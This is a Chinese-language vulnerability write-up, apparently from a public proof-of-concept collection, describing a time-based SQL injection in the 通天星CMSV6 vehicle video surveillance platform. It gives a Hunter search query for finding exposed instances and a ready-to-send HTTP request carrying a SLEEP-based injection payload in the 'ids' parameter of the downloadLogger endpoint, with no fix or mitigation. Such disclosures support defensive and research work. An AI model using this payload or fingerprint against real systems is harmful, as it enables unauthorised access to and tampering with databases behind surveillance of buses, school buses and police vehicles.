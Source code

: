 # 通天星CMSV6车载视频监控平台 disable存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台disable存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/SOwkwqowLJh9AbQ0/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-030024.png)

# 四、漏洞复现
```rust
GET /edu_security_officer/disable;downloadLogger.action?ids=1+AND+%28SELECT+2688+FROM+%28SELECT%28SLEEP%285%29%29%29kOIi%29 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717265746631-43d0a11b-a656-4117-93fa-af88370c0cf8.png](./img/SOwkwqowLJh9AbQ0/1717265746631-43d0a11b-a656-4117-93fa-af88370c0cf8-182905.png)

```rust
GET /edu_security_officer/disable;downloadLogger.action?ids=1 HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717265761114-f1ef9a5c-996b-41d4-8ebf-4a5620210973.png](./img/SOwkwqowLJh9AbQ0/1717265761114-f1ef9a5c-996b-41d4-8ebf-4a5620210973-835467.png)



> 更新: 2024-12-28 13:05:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cmzasmro4p4gdshs>